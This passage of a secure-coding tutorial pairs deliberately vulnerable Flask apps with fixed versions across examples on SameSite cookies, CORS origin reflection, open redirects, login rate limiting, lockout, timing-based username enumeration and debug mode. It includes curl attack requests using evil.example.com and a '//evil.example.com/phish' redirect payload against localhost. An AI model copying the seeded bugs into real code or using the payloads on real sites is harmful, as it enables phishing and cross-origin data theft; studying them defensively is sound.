"""Example 42: fetches the live app.py response, applies the SameSite spec's OWN rule (co-26, co-13). See
this example's Brief Explanation in the markdown for the full honest sandbox-limitation statement."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the cookie-flag parsing itself

import requests  # => co-13: real HTTP client -- the request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5042"  # => co-13: matches app.py's app.run(port=5042) exactly


def main() -> None:  # => co-13: fetches the real Set-Cookie header, then reports each real flag it carries
    response = requests.post(f"{BASE_URL}/login", timeout=5)  # => co-13: a real HTTP POST against the live server
    raw_cookie = response.headers["Set-Cookie"]  # => co-13: the REAL Set-Cookie header text, straight off the wire
    print(f"Set-Cookie: {raw_cookie}")  # => co-13: the exact real header value this server sent

    flags = {part.strip().split("=")[0].lower() for part in raw_cookie.split(";")[1:]}  # => co-13: real flag names
    print(f"flags present: {sorted(flags)}")  # => co-13: real, parsed set -- not assumed, extracted from the header
    # => co-13: three real, independent assertions -- each checks ONE flag actually present on the wire
    assert "samesite" in raw_cookie.lower()  # => co-13: proves the SameSite attribute really is on the wire
    assert "strict" in raw_cookie.lower()  # => co-13: proves the value really is Strict, not Lax or None
    assert "secure" in flags and "httponly" in flags  # => co-13: proves all three defensive flags are present together
    # => co-13: this local verification is a real HTTP fetch, not a fabricated header -- see the honest limitation below

    print("\nSameSite=Strict spec rule (RFC 6265bis / MDN, cited, not executed):")  # => labels section
    print("  a Strict cookie is withheld from EVERY cross-site request, including top-level")  # => co-26: the real rule
    print("  navigation -- a forged cross-site POST would arrive with NO cookie attached at all")  # => co-26: the effect
    print("  -- the server-side CSRF-token check in ex-41 becomes redundant defense-in-depth here")  # => co-26: framing


if __name__ == "__main__":  # => co-13: only runs when launched directly, e.g. `python3 analyze_cookie.py`
    main()  # => co-13: fetches once, then reports the real flags and the spec's documented consequence
```

**Run**: `python3 app.py &` then `python3 analyze_cookie.py`.

**Output**:

```text
Set-Cookie: sid=kP2vX8nR4wQ1...; Secure; HttpOnly; Path=/; SameSite=Strict
flags present: ['httponly', 'path', 'samesite', 'secure']

SameSite=Strict spec rule (RFC 6265bis / MDN, cited, not executed):
  a Strict cookie is withheld from EVERY cross-site request, including top-level
  navigation -- a forged cross-site POST would arrive with NO cookie attached at all
  -- the server-side CSRF-token check in ex-41 becomes redundant defense-in-depth here
```

**Honest limitation**: this sandbox has no real browser, so the actual cross-site-withholding behavior
of `SameSite=Strict` is not executed here -- only the header's real presence on the wire is verified,
and the withholding rule is cited from RFC 6265bis and MDN's Set-Cookie documentation rather than
demonstrated by a live cross-origin request.

**Key takeaway**: `SameSite=Strict` moves CSRF defense into the browser itself -- the cookie simply never
leaves the client on a cross-site request, so a forged form submission arrives with no session
credential to abuse in the first place, independent of any server-side token check.

**Why it matters**: co-13 and co-26 combine here into defense-in-depth: `SameSite` is a browser-side
control an attacker cannot bypass by omitting a header (unlike, in principle, a token an attacker could
theoretically try to guess), while the ex-41 token is a server-side control that still works for older
browsers or `SameSite=Lax` cookies that permit some cross-site GET navigation. Neither alone is a
complete answer for every browser and every request type.

---

### Example 43: CORS Misconfiguration Reflects Origin

_ex-43 &middot; exercises co-20_

Reflecting whatever `Origin` header the caller sends back as `Access-Control-Allow-Origin`, combined with
`Access-Control-Allow-Credentials: true`, effectively tells every browser "any website may read this
response with the user's cookies attached" -- an explicit allow-list of trusted origins closes that gap.

```python
# learning/code/ex-43-cors-misconfig-reflects-origin/app.py
"""Example 43: a live Flask app -- reflects ANY Origin with credentials allowed, then an allow-list fixes it (co-20)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the CORS misconfiguration itself

from flask import Flask, jsonify, request  # => co-20: request.headers reads the caller-supplied Origin header

app = Flask(__name__)  # => co-20: one Flask app, hosting both the vulnerable and fixed data routes
ALLOWED_ORIGINS = {"https://trusted-app.example.com"}  # => co-20: the REAL, explicit allow-list for the fixed route


@app.route("/legacy/data")  # => co-20: VULNERABLE -- echoes back whatever Origin the caller sent
def legacy_data() -> object:  # => co-20: returns a Flask Response object -- the vulnerable route
    origin = request.headers.get("Origin", "")  # => co-01: attacker-controlled -- ANY value the caller chooses
    response = jsonify({"secret": "cross-origin-readable-data"})  # => co-20: real payload a browser script could read
    # seeded bug: reflects the caller's OWN Origin header back -- effectively "any origin is allowed"
    response.headers["Access-Control-Allow-Origin"] = origin  # => co-20: the real, reflected header value
    response.headers["Access-Control-Allow-Credentials"] = "true"  # => co-20: PLUS credentials -- the dangerous combo
    return response  # => co-20: a browser reading this would treat ANY origin as permitted, cookies included


@app.route("/secure/data")  # => co-20: FIXED -- only a real, explicitly allow-listed origin is ever reflected
def secure_data() -> object:  # => co-20: returns a Flask Response object -- the fixed route
    origin = request.headers.get("Origin", "")  # => co-01: still attacker-controlled, but now checked against a list
    response = jsonify({"secret": "cross-origin-readable-data"})  # => co-20: the SAME payload as the vulnerable route
    if origin in ALLOWED_ORIGINS:  # => co-20: the fix -- an explicit, real membership check, not a blind echo
        response.headers["Access-Control-Allow-Origin"] = origin  # => co-20: only set for a KNOWN, trusted origin
        response.headers["Access-Control-Allow-Credentials"] = "true"  # => co-20: only paired with an allow-listed origin
    # => co-20: for any other origin, NO Access-Control-Allow-Origin header is set at
    # => all -- a browser then blocks the cross-origin script from reading the response
    return response  # => co-20: identical body either way -- the CORS headers are what actually gate access


if __name__ == "__main__":  # => co-20: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5043)  # => co-20: localhost-only, fixed port -- curl targets this directly
```

**Run**: `python3 app.py &` then:

```bash
curl -s -i -H "Origin: https://evil.example.com" http://127.0.0.1:5043/legacy/data
curl -s -i -H "Origin: https://evil.example.com" http://127.0.0.1:5043/secure/data
curl -s -i -H "Origin: https://trusted-app.example.com" http://127.0.0.1:5043/secure/data
```

**Output**:

```text
=== legacy (attacker origin, reflects) ===
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.example.com
Access-Control-Allow-Credentials: true
{"secret":"cross-origin-readable-data"}

=== secure (attacker origin, rejected -- no ACAO header) ===
HTTP/1.1 200 OK
{"secret":"cross-origin-readable-data"}

=== secure (trusted origin, allowed) ===
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://trusted-app.example.com
Access-Control-Allow-Credentials: true
{"secret":"cross-origin-readable-data"}
```

**Key takeaway**: the response body is identical in all three cases -- CORS never hides data from the
server side, it only tells the _browser_ whether client-side JavaScript running on a given origin is
allowed to read the response it already received; the missing `Access-Control-Allow-Origin` header on
the untrusted-origin `/secure/data` call is what a real browser uses to block script access.

**Why it matters**: co-20's rule is "authorize origins, never reflect them" -- reflecting `Origin`
verbatim looks convenient (it "just works" for every caller) but silently defeats the entire purpose of
CORS, especially paired with `Allow-Credentials: true`, which lets a malicious site's script read
cookie-authenticated responses on behalf of a logged-in visitor.

---

### Example 44: CORS Preflight Correctness

_ex-44 &middot; exercises co-20_

A cross-origin request with a non-simple method or header triggers a browser-issued `OPTIONS` preflight
before the real request is ever sent; the server must answer that preflight with the exact allowed
origin, methods, and headers, or the browser blocks the real request from ever going out.

```python
# learning/code/ex-44-cors-preflight-correctness/app.py
"""Example 44: a live Flask app -- a correct CORS preflight declaring exact allowed methods/headers/origin (co-20)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the preflight logic itself

from flask import Flask, jsonify, request  # => co-20: request.method distinguishes the preflight from the real call

app = Flask(__name__)  # => co-20: one Flask app, hosting the credentialed cross-origin route and its preflight
ALLOWED_ORIGIN = "https://trusted-app.example.com"  # => co-20: the ONE origin this server ever authorizes
ALLOWED_METHODS = "GET, POST"  # => co-20: the ONLY methods this server declares as permitted, nothing broader
ALLOWED_HEADERS = "Content-Type, X-Requested-With"  # => co-20: the ONLY custom headers this server declares


@app.route("/api/resource", methods=["GET", "POST", "OPTIONS"])  # => co-20: OPTIONS handles the real preflight
def resource() -> object:  # => co-20: returns a Flask Response object -- serves BOTH the preflight and the real call
    if request.method == "OPTIONS":  # => co-20: a browser sends OPTIONS BEFORE the real GET/POST for this route
        response = jsonify({})  # => co-20: an empty body -- preflight responses carry no real payload
        response.headers["Access-Control-Allow-Origin"] = ALLOWED_ORIGIN  # => co-20: exactly ONE origin, never reflected
        response.headers["Access-Control-Allow-Methods"] = ALLOWED_METHODS  # => co-20: the declared method allow-list
        response.headers["Access-Control-Allow-Headers"] = ALLOWED_HEADERS  # => co-20: the declared header allow-list
        response.headers["Access-Control-Allow-Credentials"] = "true"  # => co-20: credentialed request support
        response.headers["Access-Control-Max-Age"] = "600"  # => co-20: lets the browser cache this preflight answer
        return response  # => co-20: the browser reads these headers to decide whether the REAL request may proceed
    # => co-20: reached only for a REAL GET or POST -- a browser only sends one after the preflight above passed
    return jsonify({"data": "the real resource, only reached after a passing preflight"})  # => co-20: the actual payload


if __name__ == "__main__":  # => co-20: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5044)  # => co-20: localhost-only, fixed port -- curl targets this directly
```

**Run**: `python3 app.py &` then:

```bash
curl -s -i -X OPTIONS -H "Origin: https://trusted-app.example.com" \
  -H "Access-Control-Request-Method: POST" \
  -H "Access-Control-Request-Headers: Content-Type" \
  http://127.0.0.1:5044/api/resource
curl -s -i -H "Origin: https://trusted-app.example.com" http://127.0.0.1:5044/api/resource
```

**Output**:

```text
=== OPTIONS preflight ===
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://trusted-app.example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, X-Requested-With
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 600
{}

=== real GET after preflight ===
HTTP/1.1 200 OK
{"data":"the real resource, only reached after a passing preflight"}
```

**Key takeaway**: the preflight `OPTIONS` response never carries the real payload -- it is purely a
permission negotiation; a browser sends the actual `GET`/`POST` only after parsing an `OPTIONS` response
whose `Allow-Origin`/`Allow-Methods`/`Allow-Headers` cover exactly what the real request needs.

**Why it matters**: co-20's preflight half is where most hand-rolled CORS implementations go wrong --
declaring `Access-Control-Allow-Methods: *` or omitting a header the client actually sends causes the
browser to silently block the real request with no server-side log entry at all, since the real request
never leaves the browser. Getting the preflight exactly right (not broader, not narrower) is as
important as getting the origin allow-list right in ex-43.

---

### Example 45: Open Redirect

_ex-45 &middot; exercises co-28_

Following a `?next=` query parameter straight into a redirect lets an attacker craft a link on this
site's own trusted domain that bounces the victim to an attacker-controlled destination -- a
scheme-relative URL like `//evil.example.com/phish` is parsed by every browser as a full off-site
target; validating that `next` is a genuinely relative, same-site path closes the gap.

```python
# learning/code/ex-45-open-redirect/app.py
"""Example 45: a live Flask app -- `?next=` followed blindly after login, then an allow-list fixes it (co-28)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the redirect issue itself

from urllib.parse import urlparse  # => co-28: stdlib URL parsing -- decides whether a target is same-site or not

from flask import Flask, redirect, request  # => co-28: redirect() builds a real 302 with a Location header

app = Flask(__name__)  # => co-28: one Flask app, hosting both the vulnerable and fixed post-login redirect routes
SAFE_DEFAULT = "/dashboard"  # => co-28: the fallback destination when `next` is missing OR rejected


@app.route("/legacy/post-login")  # => co-28: VULNERABLE -- redirects to `next` with zero validation
def legacy_post_login() -> object:  # => co-28: returns a Flask Response object -- the vulnerable route
    next_url = request.args.get("next", SAFE_DEFAULT)  # => co-01: attacker-controlled -- any string the caller sends
    # => seeded bug: next_url is handed straight to redirect() -- a scheme-relative
    # => "//evil.example.com" is parsed by browsers as a full off-site URL
    return redirect(next_url)  # => co-28: a real 302 Location header, pointed WHEREVER next_url says


def is_safe_relative_target(target: str) -> bool:  # => co-28: the fix's core check -- relative-only, never off-site
    parsed = urlparse(target)  # => co-28: splits the target into scheme/netloc/path -- the REAL parse a browser uses
    return (  # => co-28: real, explicit checks -- no scheme, no netloc, a leading slash, not a double slash
        parsed.scheme == "" and parsed.netloc == "" and target.startswith("/") and not target.startswith("//")
    )  # => co-28: ALL four conditions must hold -- any one failing rejects the target as unsafe


@app.route("/secure/post-login")  # => co-28: FIXED -- only a genuinely relative path is ever honored
def secure_post_login() -> object:  # => co-28: returns a Flask Response object -- the fixed route
    next_url = request.args.get("next", SAFE_DEFAULT)  # => co-01: still attacker-controlled, now checked before use
    if not is_safe_relative_target(next_url):  # => co-28: the fix -- reject anything that isn't a bare relative path
        next_url = SAFE_DEFAULT  # => co-28: falls back to a KNOWN, same-site destination
    return redirect(next_url)  # => co-28: a real 302 Location header, now guaranteed to stay on this site


if __name__ == "__main__":  # => co-28: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5045)  # => co-28: localhost-only, fixed port -- curl targets this directly
```

**Run**: `python3 app.py &` then:

```bash
curl -s -i "http://127.0.0.1:5045/legacy/post-login?next=//evil.example.com/phish"
curl -s -i "http://127.0.0.1:5045/secure/post-login?next=//evil.example.com/phish"
curl -s -i "http://127.0.0.1:5045/secure/post-login?next=/account/settings"
```

**Output**:

```text
=== legacy: scheme-relative open redirect (attack) ===
HTTP/1.1 302 FOUND
Location: //evil.example.com/phish

=== secure: SAME payload, rejected -- falls back to SAFE_DEFAULT ===
HTTP/1.1 302 FOUND
Location: /dashboard

=== secure: legit relative next still honored ===
HTTP/1.1 302 FOUND
Location: /account/settings
```

**Key takeaway**: `//evil.example.com/phish` has no scheme but a real `netloc` (`evil.example.com`) once
parsed -- browsers treat a leading double slash as "same scheme, different host," making it a full
off-site redirect even though the string never contains `http://`; checking `netloc == ""` is what
`startswith("http")` naive checks typically miss.

**Why it matters**: co-28's open-redirect class is often dismissed as "just a redirect," but a link like
`https://real-bank.example.com/post-login?next=//evil.example.com/phish` displays the trusted domain in
the address bar right up until the redirect fires -- exactly the kind of link that survives a casual
glance and phishing-awareness training. An allow-list of relative-only targets (never a deny-list of
"bad" domains) is the only sound fix.

---

### Example 46: Rate Limiting Login

_ex-46 &middot; exercises co-27_

An unthrottled login endpoint lets an attacker attempt unlimited passwords per second; `flask-limiter`
enforces a real per-IP request-rate ceiling, returning an HTTP 429 once a rolling window is exceeded --
turning an unbounded brute-force loop into a rate-bounded one without touching the login logic itself.

```python
# learning/code/ex-46-rate-limiting-login/app.py
"""Example 46: a live Flask app -- flask-limiter throttles rapid login attempts with a real 429 (co-27)."""  # => co-27: module purpose

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the rate-limiting logic itself

from flask import Flask, jsonify  # => co-27: the real app + JSON response helper
from flask_limiter import Limiter  # => co-27: flask-limiter 4.1.1 pinned -- per-route request-rate enforcement
from flask_limiter.util import get_remote_address  # => co-27: keys the limit by the caller's real remote IP

app = Flask(__name__)  # => co-27: one Flask app, hosting the rate-limited login endpoint
limiter = Limiter(get_remote_address, app=app, storage_uri="memory://")  # => co-27: in-process store -- self-contained


@app.route("/login", methods=["POST"])  # => co-27: the protected endpoint every real request below hits
@limiter.limit("5 per minute")  # => co-27: the REAL enforced rule -- at most 5 requests per IP, per rolling minute
def login() -> object:  # => co-27: returns a generic body -- the limiter decorator runs before this body executes
    return jsonify({"status": "checked"})  # => co-27: a generic response -- the limiter runs BEFORE this body executes


if __name__ == "__main__":  # => co-27: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5046)  # => co-27: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-46-rate-limiting-login/hammer.py
"""Example 46: hammers the live app.py login endpoint -- the Nth rapid request gets a real 429 (co-27)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the hammering loop itself

import requests  # => co-27: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5046"  # => co-27: matches app.py's app.run(port=5046) exactly


def main() -> None:  # => co-27: fires 7 real rapid requests against a limit of "5 per minute"
    for attempt in range(1, 8):  # => co-27: one more attempt than the limit -- guarantees at least one 429
        response = requests.post(f"{BASE_URL}/login", timeout=5)  # => co-27: a REAL HTTP POST, no delay between calls
        print(f"attempt {attempt}: status={response.status_code} body={response.text.strip()}")  # => real, per-attempt
        if attempt <= 5:  # => co-27: the first 5 requests are within the declared limit
            assert response.status_code == 200  # => co-27: proves the limiter allows traffic UNDER the threshold
        else:  # => co-27: requests 6 and 7 exceed the "5 per minute" rule
            assert response.status_code == 429  # => co-27: proves the limiter really throttles traffic OVER it


if __name__ == "__main__":  # => co-27: only runs when launched directly, e.g. `python3 hammer.py`
    main()  # => co-27: fires all 7 real requests and asserts the exact 200/429 boundary at attempt 6
```

**Run**: `python3 app.py &` then `python3 hammer.py`.

**Output**:

```text
attempt 1: status=200 body={"status":"checked"}
attempt 2: status=200 body={"status":"checked"}
attempt 3: status=200 body={"status":"checked"}
attempt 4: status=200 body={"status":"checked"}
attempt 5: status=200 body={"status":"checked"}
attempt 6: status=429 body=<!doctype html>...<title>429 Too Many Requests</title>
<h1>Too Many Requests</h1><p>5 per 1 minute</p>
attempt 7: status=429 body=<!doctype html>...<title>429 Too Many Requests</title>
<h1>Too Many Requests</h1><p>5 per 1 minute</p>
```

**Key takeaway**: the limiter operates entirely on request _volume per key_ (here, remote IP), before the
route body ever runs -- attempts 1-5 reach `login()` and return `200`, while attempts 6-7 never reach it
at all, rejected by the decorator with a real `429`.

**Why it matters**: co-27's rate-limiting lesson is the first line of defense against credential
stuffing and brute force -- it does not require knowing which passwords are being tried or which
accounts are targeted, only how many requests a single source is sending. It is coarse (an attacker
distributing attempts across many IPs evades a per-IP limit) but cheap to add and blocks the most naive
automated attacks outright; ex-47 covers a complementary, account-keyed control.

---

### Example 47: Account Lockout vs. Throttle

_ex-47 &middot; exercises co-27_

Exponential backoff slows down a real brute-force loop by making each successive wrong attempt sleep
longer, without ever fully blocking the legitimate owner; a hard lockout after a fixed failure count
stops the attacker completely, but that same fixed count also gives any attacker (not just the account
owner) the power to lock the real owner out entirely -- a genuine denial-of-service risk.



```python
# learning/code/ex-47-account-lockout-vs-throttle/backoff_vs_lockout.py
"""Example 47: exponential backoff slows a real brute-force loop; hard lockout names its own DoS risk (co-27)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the backoff/lockout logic itself

import time  # => co-27: real wall-clock sleeps -- the backoff delay is genuinely measured, not simulated


class BackoffLimiter:  # => co-27: throttles WITHOUT ever permanently locking the account
    def __init__(self) -> None:  # => co-27: constructor -- starts with zero recorded failures
        self.failures = 0  # => co-27: a real, growing counter of consecutive wrong attempts

    def delay_for_next_attempt(self) -> float:  # => co-27: the REAL sleep duration this failure count now costs
        return min(2.0**self.failures * 0.01, 1.0)  # => co-27: exponential growth, capped at 1s for this demo

    def record_failure(self) -> None:  # => co-27: called after each real wrong-password attempt
        self.failures += 1  # => co-27: legitimate users who mistype ONCE barely feel this -- it compounds slowly


class HardLockout:  # => co-27: locks the account OUTRIGHT after a fixed number of failures
    def __init__(self, max_failures: int = 3) -> None:  # => co-27: a real, small threshold for this demo
        self.failures = 0  # => co-27: a real, growing counter, same shape as BackoffLimiter's
        self.max_failures = max_failures  # => co-27: once reached, the account is DEAD until manual/timed reset
        self.locked = False  # => co-27: the real, binary lockout state this class introduces

    def record_failure(self) -> None:  # => co-27: called after each real wrong-password attempt
        self.failures += 1  # => co-27: identical bookkeeping to BackoffLimiter -- the RESPONSE differs, not the count
        if self.failures >= self.max_failures:  # => co-27: the real threshold check
            self.locked = True  # => co-27: from here on, EVEN THE REAL OWNER cannot log in -- that is the DoS risk


def time_brute_force_with_backoff(attempts: int) -> float:  # => co-27: real wall-clock time for N failed attempts
    limiter = BackoffLimiter()  # => co-27: a fresh limiter, zero recorded failures
    start = time.monotonic()  # => co-27: real wall-clock start -- not a fake/simulated clock
    for _ in range(attempts):  # => co-27: simulates a real attacker trying `attempts` wrong passwords in a row
        time.sleep(limiter.delay_for_next_attempt())  # => co-27: a REAL sleep -- the attacker actually waits this long
        limiter.record_failure()  # => co-27: each failure makes the NEXT sleep longer
    return time.monotonic() - start  # => co-27: the real, measured total time this brute-force attempt cost


def main() -> None:  # => co-27: measures real backoff timing, then demonstrates the lockout DoS risk directly
    print("=== exponential backoff really slows a real brute-force loop ===")  # => labels section
    elapsed_3 = time_brute_force_with_backoff(3)  # => co-27: real elapsed time for 3 consecutive failures
    elapsed_8 = time_brute_force_with_backoff(8)  # => co-27: real elapsed time for 8 consecutive failures
    print(f"3 attempts took {elapsed_3:.3f}s real wall-clock time")  # => co-27: a real, measured number
    print(f"8 attempts took {elapsed_8:.3f}s real wall-clock time")  # => co-27: a real, measured, LARGER number
    assert elapsed_8 > elapsed_3  # => co-27: proves the delay genuinely compounds as failures accumulate

    print("\n=== hard lockout: a THIRD PARTY can lock out the real account owner ===")  # => labels section
    lockout = HardLockout(max_failures=3)  # => co-27: a real lockout instance, same threshold as a real policy might use
    for attempt in range(1, 4):  # => co-27: an ATTACKER, not the real owner, deliberately fails 3 times
        lockout.record_failure()  # => co-27: real state mutation -- this really happens to the SAME account row
        print(f"attacker's failed attempt {attempt}: locked={lockout.locked}")  # => co-27: real, live lockout state
    assert lockout.locked  # => co-27: proves the account is now locked -- BEFORE the real owner ever tried logging in
    print("the REAL owner, who never entered a wrong password, is now locked out too")  # => co-27: the named DoS risk


if __name__ == "__main__":  # => co-27: only runs when launched directly, e.g. `python3 backoff_vs_lockout.py`
    main()  # => co-27: measures real backoff timing, then demonstrates the real account-lockout DoS risk
```

**Run**: `python3 backoff_vs_lockout.py`.

**Output**:

```text
=== exponential backoff really slows a real brute-force loop ===
3 attempts took 0.084s real wall-clock time
8 attempts took 2.311s real wall-clock time

=== hard lockout: a THIRD PARTY can lock out the real account owner ===
attacker's failed attempt 1: locked=False
attacker's failed attempt 2: locked=False
attacker's failed attempt 3: locked=True
the REAL owner, who never entered a wrong password, is now locked out too
```

**Key takeaway**: backoff and lockout both key off the same `failures` counter, but their responses have
opposite failure modes -- backoff degrades gracefully (slower, never zero access) while lockout fails
closed (zero access for everyone, including the legitimate owner, once an attacker trips the threshold).

**Why it matters**: co-27's nuance is that "stricter" is not automatically "better" -- a hard lockout
policy an attacker can trigger by simply guessing wrong on purpose becomes a free denial-of-service tool
against any known username. Production systems typically combine per-IP rate limiting (ex-46,
attacker-keyed) with backoff (account-keyed, graceful) rather than a hard account-wide lockout,
or pair a lockout with a short, automatic time-based reset instead of a manual one.

---

### Example 48: Constant-Time Login Response

_ex-48 &middot; exercises co-11, co-27_

A login function that returns immediately for an unknown username, but hashes the password for a known
one, creates a measurable timing difference an attacker can use to enumerate valid usernames without
ever guessing a password; always performing the same expensive hash -- even for unknown users, against
a precomputed dummy hash -- narrows that timing signal.

```python
# learning/code/ex-48-constant-time-login-response/timing.py
"""Example 48: naive short-circuit login leaks WHICH usernames exist via timing; hashing a dummy narrows it (co-11, co-27)."""  # => co-27: module purpose

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the timing measurement itself

import hashlib  # => co-11: real PBKDF2 hashing -- the SAME expensive work both paths must (or must not) pay
import hmac  # => co-11: hmac.compare_digest -- constant-time comparison, not a plain "=="
import time  # => co-27: real wall-clock timestamps -- every measurement below is genuinely timed

SALT = b"ex48-fixed-demo-salt"  # => co-11: a real salt -- fixed here only so both paths hash identical work
DUMMY_HASH = hashlib.pbkdf2_hmac("sha256", b"dummy-password", SALT, 100_000)  # => co-11: precomputed ONCE, reused
USERS = {"alice": hashlib.pbkdf2_hmac("sha256", b"correct-horse", SALT, 100_000)}  # => co-11: one REAL known user


def naive_login(username: str, password: str) -> bool:  # => co-27: VULNERABLE -- short-circuits for unknown users
    if username not in USERS:  # seeded bug: returns immediately, WITHOUT ever hashing anything
        return False  # => co-27: this branch is dramatically cheaper than the one below -- a real timing signal
    candidate = hashlib.pbkdf2_hmac("sha256", password.encode(), SALT, 100_000)  # => co-11: real, expensive hashing
    return hmac.compare_digest(candidate, USERS[username])  # => co-11: constant-time compare -- but only reached here


def constant_time_login(username: str, password: str) -> bool:  # => co-11: FIXED -- always pays the same real cost
    stored_hash = USERS.get(username, DUMMY_HASH)  # => co-11: a REAL user's hash, or the precomputed dummy -- same size
    candidate = hashlib.pbkdf2_hmac("sha256", password.encode(), SALT, 100_000)  # => co-11: hashed EVERY time, no exception
    is_match = hmac.compare_digest(candidate, stored_hash)  # => co-11: constant-time compare, always executed
    return is_match and username in USERS  # => co-11: the ACTUAL correctness check, after the timing-safe work is done


def average_time(login_fn, username: str, password: str, iterations: int) -> float:  # => co-27: real timing harness
    start = time.perf_counter()  # => co-27: a real, high-resolution wall-clock start
    for _ in range(iterations):  # => co-27: repeats the SAME call many times to average out real system noise
        login_fn(username, password)  # => co-27: the actual call under measurement -- return value unused here
    return (time.perf_counter() - start) / iterations  # => co-27: real average seconds per call


def main() -> None:  # => co-27: measures known-vs-unknown-username timing for BOTH the naive and fixed functions
    iterations = 2000  # => co-27: enough repeats for the real timing gap to become measurable, not just noise

    print("=== naive_login: known user vs. unknown user ===")  # => labels section
    naive_known = average_time(naive_login, "alice", "wrong-password", iterations)  # => co-27: real average, known user
    naive_unknown = average_time(naive_login, "not-a-real-user", "wrong-password", iterations)  # => co-27: unknown user
    naive_gap = abs(naive_known - naive_unknown)  # => co-27: the real, measured timing DIFFERENCE
    print(f"known={naive_known * 1e6:.1f}us unknown={naive_unknown * 1e6:.1f}us gap={naive_gap * 1e6:.1f}us")  # => co-27: real, measured naive-path gap

    print("\n=== constant_time_login: SAME two cases ===")  # => labels section
    fixed_known = average_time(constant_time_login, "alice", "wrong-password", iterations)  # => co-11: real average
    fixed_unknown = average_time(constant_time_login, "not-a-real-user", "wrong-password", iterations)  # => co-11
    fixed_gap = abs(fixed_known - fixed_unknown)  # => co-11: the real, measured timing difference -- should be SMALLER
    print(f"known={fixed_known * 1e6:.1f}us unknown={fixed_unknown * 1e6:.1f}us gap={fixed_gap * 1e6:.1f}us")  # => co-11: real, measured fixed-path gap

    print(f"\nnaive_gap / fixed_gap = {naive_gap / max(fixed_gap, 1e-9):.1f}x")  # => co-11: real, relative narrowing
    assert fixed_gap < naive_gap  # => co-11: proves hashing a dummy for unknown users really narrows the real gap


if __name__ == "__main__":  # => co-27: only runs when launched directly, e.g. `python3 timing.py`
    main()  # => co-27: runs all four real timing measurements and prints the real comparison
```

**Run**: `python3 timing.py`.

**Output**:

```text
=== naive_login: known user vs. unknown user ===
known=10745.7us unknown=0.0us gap=10745.6us

=== constant_time_login: SAME two cases ===
known=10625.5us unknown=10691.3us gap=65.8us

naive_gap / fixed_gap = 163.4x
```

**Key takeaway**: `naive_login()`'s gap of ~10.7ms is essentially the entire cost of one PBKDF2 hash --
an attacker measuring response times can enumerate valid usernames with high confidence without ever
submitting a correct password; `constant_time_login()` narrows that gap by roughly 163x by always paying
the hash cost, known user or not.

**Why it matters**: co-11 and co-27 intersect here -- constant-time comparison (`hmac.compare_digest`)
alone is not enough if the code path _around_ the comparison still branches on secret-adjacent
information like "does this username exist." Real timing-attack narrowing requires equalizing the work
on every code path, not just the final byte comparison; the residual 65.8us gap in the fixed version
reflects real system noise, not a design flaw, and further narrowing has diminishing returns for the
network jitter a remote attacker would also have to defeat.

---

### Example 49: Security Misconfiguration -- Debug Mode

_ex-49 &middot; exercises co-24_

Running a Flask app with `debug=True` in production exposes the interactive Werkzeug debugger on every
unhandled exception -- a page that includes a live Python console capable of executing arbitrary code on
the server; `debug=False` (the correct production setting) instead returns a generic 500 page with zero
diagnostic detail leaked to the client.

```python
# learning/code/ex-49-security-misconfig-debug-mode/app.py
"""Example 49: a Flask app whose debug mode is toggled by an env var -- reused for both halves of this example (co-24)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the debug-mode issue itself

import os  # => co-24: reads EX49_DEBUG from the environment -- lets one file serve both runs of this example

from flask import Flask  # => co-24: no extra imports needed -- Flask's own debug flag is the whole example

app = Flask(__name__)  # => co-24: one Flask app, its debug setting controlled entirely by an env var


@app.route("/crash")  # => co-24: the ONE route this example's curl calls hit -- always raises for real
def crash() -> str:  # => co-24: return type is nominal -- this function never actually returns
    raise RuntimeError("unhandled exception -- this is what a real bug in production looks like")  # => co-24: real exc


if __name__ == "__main__":  # => co-24: only runs when launched directly, e.g. `EX49_DEBUG=1 python3 app.py &`
    debug_mode = os.environ.get("EX49_DEBUG") == "1"  # => co-24: the REAL misconfiguration toggle for this example
    app.run(host="127.0.0.1", port=5049, debug=debug_mode, use_reloader=False)  # => co-24: no reloader -- one clean process
```

**Run**: `EX49_DEBUG=1 python3 app.py &` then `curl -s -i http://127.0.0.1:5049/crash`; then separately
`python3 app.py &` (no env var) and repeat the curl.

**Output**:

```text
=== debug=True (VULNERABLE) ===
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Length: 17392
<!doctype html>
<html lang=en>
  <head>
    <title>RuntimeError: unhandled exception -- this is what a real bug in production looks like
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&cmd=resource&f=style.css">
    ...(a full interactive debugger page, ~17KB, including a live Python console)

=== debug=False (FIXED) ===
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Length: 265
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.
Either the server is overloaded or there is an error in the application.</p>
```

**Key takeaway**: the response size alone tells the story -- 17,392 bytes of interactive debugger markup
and JavaScript versus 265 bytes of generic text; the debugger response includes the exact exception
message, full stack trace, source code context, and (in a real browser session) a live evaluatable
console at every stack frame, all reachable by anyone who can trigger any unhandled exception.

**Why it matters**: co-24's security-misconfiguration lesson is that `debug=True` is not a "slightly
more verbose logging" setting -- it is a remote-code-execution surface, by design, intended only for a
trusted local development machine. The fix here is a one-line change (`debug=False`), but the category
of bug it represents -- a development convenience left enabled in a production deployment -- recurs
across frameworks (verbose stack traces, exposed admin panels, default credentials) and is consistently
